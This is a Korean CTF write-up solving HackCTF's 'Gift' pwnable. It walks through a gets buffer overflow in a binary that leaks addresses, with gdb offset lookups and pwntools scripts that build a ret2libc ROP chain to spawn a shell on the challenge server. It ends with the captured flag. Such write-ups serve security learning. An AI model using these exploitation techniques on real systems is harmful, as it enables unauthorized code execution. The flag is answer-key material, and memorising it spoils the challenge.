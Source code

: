 #Gift

---

우선 main코드를 살펴보자

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-84h]

  alarm(0x3Cu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  printf("Hey guyssssssssss here you are: %p %p\n", &binsh, &system);
  fgets(&s, 128, stdin);
  printf(&s);
  gets(&s);
  return 0;
}
</pre>

다음과 같이 binsh와 `system()`의 주소를 주고 `fgets()`를 이용해서 128bytes를 한 번 입력받은 후 `gets()`를 통해서 bufferoverflow가 일어난다. 이를 통해서 쉽게 익스플로잇이 가능하다고 생각하여 다음과 같이 코드를 짜보았다.

<pre>
from pwn import*

p=process('./gift')

p.recvuntil(': ')

binsh=int(p.recv(9),16)

p.recv(1)

system=int(p.recv(9),16)

log.info("binsh address is "+str(hex(binsh)))
log.info("system address is "+str(hex(system)))

payload='A'*136
payload+=p32(system)
payload+='AAAA'
payload+=p32(binsh)

p.sendline('1')

p.recvline()
</pre>

하지만 익스에 성공하지 못했다. 이유를 찾아보니 binsh라는 공간에는 아무것도 들어있지 않았었다. 때문에 이 binsh라는 공간에 따로 "/bin/sh" 문자열을 담는 과정이 필요하다.

때문에 `gets()`함수를 이용해서 "/bin/sh"문자열을 binsh에다가 담은 후 system함수를 호출할 것이다. 이를 위해서 필요한 정보는 다음과 같다.

**system 함수의 offset<br>
gets 함수의 offset<br>
pop ret gadget의 위치**

우선 `system()`의 offset과 `gets()`의 offset은 다음과 같다.

    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e3eda0 <__libc_system>
    gdb-peda$ p gets
    $2 = {<text variable, no debug info>} 0xf7e633e0 <_IO_gets>
    gdb-peda$ vmmap
    Start      EndPerm      	Name
    0x08048000 0x08049000 r-xp	/home/sjy0175/Desktop/HackCTF/Pwnable/19.Gift/gift
    0x08049000 0x0804a000 rw-p	/home/sjy0175/Desktop/HackCTF/Pwnable/19.Gift/gift
    0xf7e03000 0xf7e04000 rw-p	mapped
    0xf7e04000 0xf7fb4000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
    0xf7fb4000 0xf7fb6000 r--p	/lib/i386-linux-gnu/libc-2.23.so
    0xf7fb6000 0xf7fb7000 rw-p	/lib/i386-linux-gnu/libc-2.23.so
    0xf7fb7000 0xf7fba000 rw-p	mapped
    0xf7fd3000 0xf7fd4000 rw-p	mapped
    0xf7fd4000 0xf7fd7000 r--p	[vvar]
    0xf7fd7000 0xf7fd9000 r-xp	[vdso]
    0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
    0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.23.so
    0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.23.so
    0xfffdd000 0xffffe000 rw-p	[stack]
    gdb-peda$ p 0xf7e3eda0-0xf7e04000
    $3 = 0x3ada0
    gdb-peda$ p 0xf7e633e0-0xf7e04000
    $4 = 0x5f3e0

**system\_offset=0x3ada0 <br>
gets\_offset=0x5f3e0**

pop ret gadget의 위치는 `gets()`의 중간에 있는 코드를 이용하였다.

    gdb-peda$ pd gets
    Dump of assembler code for function _IO_gets:
       0xf7e63508 <+296>:	pop ebp
       0xf7e63509 <+297>:	ret
    ...
    End of assembler dump.

**pop\_ret\_offset=0x5f508**

이를 토대로 다음과 같이 익스플로잇 코드를 짜보았다.

<pre>
from pwn import*

#p=remote('ctf.j0n9hyun.xyz',3018)
p=process('./gift')

system_offset=0x3ada0
gets_offset=0x5f3e0
pop_ret_offset=0x5f508

p.recvuntil(': ')

binsh=int(p.recv(9),16)

p.recv(1)

system_address=int(p.recv(10),16)

log.info("binsh address is "+str(hex(binsh)))
log.info("system address is "+str(hex(system_address)))

libc_base=system_address-system_offset
gets_address=libc_base+gets_offset
pop_ret_address=libc_base+pop_ret_offset

payload='A'*136
payload+=p32(gets_address)
payload+=p32(pop_ret_address)
payload+=p32(binsh)
payload+=p32(system_address)
payload+='AAAA'
payload+=p32(binsh)

p.sendline('1')

p.recvline()

p.sendline(payload)

p.sendline('/bin/sh')

p.interactive()
</pre>

이 코드를 통해서 로컬 익스플로잇에 성공하였다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/19.Gift$ python ex.py
[+] Starting local process './gift': pid 3245
[*] binsh address is 0x8049940
[*] system address is 0xf7d41da0
[*] Switching to interactive mode
1
$ whoami
sjy0175
$ pwd
/home/sjy0175/Desktop/HackCTF/Pwnable/19.Gift
</pre>

하지만 remote 바꾼 후 코드를 실행시켰더니 쉘이 실행되지 않았다. 로컬에서는 성공했었는데 서버에서는 실패한 이유는 무엇일까.

그 이유는 ASLR때문에 offset을 구하여 함수의 주소를 알아냈지만 libc파일이 따로 주어지지 않아서 offset값이 달랐기 때문이다. 그래서 정확한 offset값을 **https://libc.blukat.me/** 사이트에서 알 수 있었다.

**system\_offset=0x3a940<br>
gets\_offset=0x5e890<br>
pop\_ret\_offset=0x5e9b8**

이를 통해서 다음 코드로 익스플로잇에 성공할 수 있었다.

<pre>
from pwn import*

p=remote('ctf.j0n9hyun.xyz',3018)
#p=process('./gift')

system_offset=0x3a940
gets_offset=0x5e890
pop_ret_offset=0x5e9b8

p.recvuntil(': ')

binsh=int(p.recv(9),16)

p.recv(1)

system_address=int(p.recv(10),16)

log.info("binsh address is "+str(hex(binsh)))
log.info("system address is "+str(hex(system_address)))

libc_base=system_address-system_offset
gets_address=libc_base+gets_offset
pop_ret_address=libc_base+pop_ret_offset

payload='A'*136
payload+=p32(gets_address)
payload+=p32(pop_ret_address)
payload+=p32(binsh)
payload+=p32(system_address)
payload+='AAAA'
payload+=p32(binsh)

p.sendline('1')

p.recvline()

p.sendline(payload)
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/19.Gift$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3018: Done
[*] binsh address is 0x8049940
[*] system address is 0xf7d59940
[*] Switching to interactive mode
1
$ whoami
attack
$ ls
flag
main
$ cat flag
HackCTF{플래그_잘_받았지?_이게_내_선물이야!}
</pre>

**flag: HackCTF{플래그_잘_받았지?_이게_내_선물이야!}**